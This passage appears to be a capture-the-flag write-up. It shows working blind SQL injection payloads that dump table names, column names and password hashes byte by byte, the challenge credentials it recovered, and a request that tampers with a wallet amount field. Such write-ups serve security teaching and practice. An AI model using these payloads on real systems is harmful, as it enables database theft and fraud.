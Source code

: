 - Dump table name
    - `0' |(select count(*) from (select table_schema,table_name from information_schema.tables having table_schema !="sys" and table_schema !="mysql" and table_schema !="performance_schema" and table_schema !="information_schema" and table_name regexp "[a-z].*") as b)| '0`

(if the regex pattern matches, the value of ac in the info page will show a number > 0)

- Dump column name
    - `0' |(select count(*) from (select column_name from information_schema.columns having table_name="users" and column_name regexp ".*") as b)| '0`
- Dump data
    - `0' |(select count(*) from (select id, pw from userdata.users having id="MASTER" and pw regexp ".*") as b)| '0`

Because the account number is a signed 8-byte integer, we can use `hex(mid((select pw from (select id, pw from userdata.users having id="admin") as b), 1, 8))` to extract 8 bytes of the SHA1 password at once.

#### Result

there is two tables in the userdata db:

- `users`
    - `id`
    - `pw`
    - `ac`
- `user_wallet`

And we found a user `MASTER` with password `master` and ac `master`, but this is fake user lol.

There is another user `admin` with password `hacker` and ac `ADMIN_ACC0UNTS`.

After login as `admin`, we can view the `TOP SECRET` now:

```
They are manipulating the price of coins!! 
How can this be? When I knew that, I decided to expose that.
Fortunately, I have a MASTER PASSWORD (not flag). It is..


'D0_N0T_RE1E@5E_0THER5'
Also, they have set up evidence to not be searched(googling). 
If you read this message, please found evidence and expose it.
```

so the password of zip file is `D0_N0T_RE1E@5E_0THER5`.

I found there is a logic vulnerabilty in `reserv.php` after code review.

we can assign arbitrary number to `$_POST['amount']` in `reserv.php`, and it will update the amount of `user_wallet`:

```
http://110.10.147.112/?p=reserv
code=D0_N0T_RE1E@5E_0THER5&date=2019-01-29&amount=1000000000
```

Then, we can sell our coins to gold in `sell.php`.
